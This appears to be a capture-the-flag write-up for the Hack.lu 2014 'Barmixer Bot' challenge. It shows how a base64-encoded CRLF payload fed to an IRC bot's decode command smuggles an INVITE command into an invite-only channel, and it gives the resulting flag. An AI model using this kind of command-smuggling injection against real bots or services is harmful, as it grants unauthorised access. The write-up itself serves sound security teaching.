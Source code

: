 # Hack.lu CTF 2014: Barmixer Bot

**Category:** Misc
**Points:** 200
**Author:** freddy
**Description:**

> There’s a fun and quirky IRC bot to play with. It responds to commands in private chat but also in #hacklu-saloon on Freenode. We think it’s involved in a devious scheme that distracts people to get their money pickpocketed. So be careful!
>
> **Announcement:** Due to a clever hack, somebody took over the nickname `barmixer-bot`, so it is now called `barmixing-bot`.

## Write-up

In the `#hacklu-saloon` channel on Freenode is a bot with operator privileges named `barmixer-bot` (later `barmixing-bot`). Let’s send him a private message:

```
13:36 <mathiasbynens> !help
13:36 <barmixing-bot> Send messages to the bot or the channel starting with an exclamation mark. Known commands are list, status, karma, math, base64, base64d, rot13, ping, hack, request, list
13:36 <mathiasbynens> !list
13:36 <barmixing-bot> Not implemented ;-)
13:36 <mathiasbynens> !status
13:36 <barmixing-bot> My name is barmixing-bot, my uptime is 3 hours 7 minutes and 18 seconds. I am on the following channels: #hacklu-saloon, #hacklu-secret-channel
```

That `#hacklu-secret-channel` sure looks interesting. Sadly it’s not possible to just `/join` it, as it’s an invite-only channel.

Some testing reveals that the bot’s `!base64d` functionality can be exploited. By letting the bot decode a multi-line message, remote IRC command execution is possible. Let’s use this to trick the bot into inviting us to the secret channel:

```bash
$ printf "hi\r\nINVITE mathiasbynens #hacklu-secret-channel" | base64
aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
```

Let’s feed this message to the bot for decoding:

```
13:37 <mathiasbynens> !base64d aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
13:37 <barmixing-bot> hi
13:37 ** You have been invited to #hacklu-secret-channel by barmixing-bot
```

Joining `#hacklu-secret-channel` reveals the flag in the topic:

```
FLAG: GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH
```

The flag is `GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-misc-200-barmixing-bot/>
